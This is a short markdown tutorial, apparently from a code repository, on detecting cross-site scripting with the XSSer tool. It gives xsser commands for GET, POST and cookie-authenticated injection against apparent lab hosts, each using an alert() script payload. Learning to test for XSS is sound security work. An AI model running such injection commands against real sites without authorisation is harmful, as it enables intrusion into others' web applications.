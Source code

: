 # Cross Site Scripting using XSSer

#### WHAT IS XSS?
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.

#### XXSer TOOL

Cross Site "Scripter" (aka XSSer) is an automatic -framework- to detect, exploit and report XSS vulnerabilities in web-based applications.<br>
It provides several options to try to bypass certain filters and various special techniques for code injection.

#### GET
```
xsser --url "http://192.202.188.3//index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert('XSS')</script>"
```

#### POST
```
xsser --url "http://192.202.188.3/index.php?page=dns-lookup.php" -p "target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS" --Fp "<script>alert('XSS')</script>"
```

#### AUTHENTICATED XSS
```
xsser --url "http://192.9.32.3/htmli_get.php?firstname=XSS&lastname=doe&form=submit" --cookie "PHPSESSID=rc3dqiai4ip3d79a51p7u0ofq0; security_level=0" --Fp "<script>alert('XSS')</script>"
```